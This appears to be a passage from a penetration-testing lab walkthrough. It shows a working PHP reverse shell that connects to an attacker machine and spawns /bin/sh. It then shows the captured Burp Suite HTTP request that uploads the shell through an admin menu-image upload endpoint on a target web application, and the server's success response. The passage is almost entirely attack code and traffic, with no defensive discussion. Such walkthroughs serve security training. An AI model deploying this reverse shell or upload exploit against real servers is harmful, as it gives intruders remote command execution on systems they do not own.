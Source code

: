 `vim ./revsh.php`:
```php
<?php
$ip = '192.168.56.118';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

`firefox` > `http://192.168.56.127/admin/index.php?page=menu`

`burpsuite`

`HTTP Request`:
```
POST /admin/ajax.php?action=save_menu HTTP/1.1 ←
Host: 192.168.56.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------13173069224039884638424562543
Content-Length: 827
Origin: http://192.168.56.127
Connection: close
Referer: http://192.168.56.127/admin/index.php?page=menu ←
Cookie: PHPSESSID=u1j8akv6tn8fa1udv3rsq3hctp ←

[...]

100
-----------------------------13173069224039884638424562543
Content-Disposition: form-data; name="img"; filename="./revsh.php" ←
Content-Type: application/x-php

[...]
```
`HTTP Response`:
```
HTTP/1.1 200 OK ←
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 27 Sep 2024 08:28:54 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1

1 ←
```
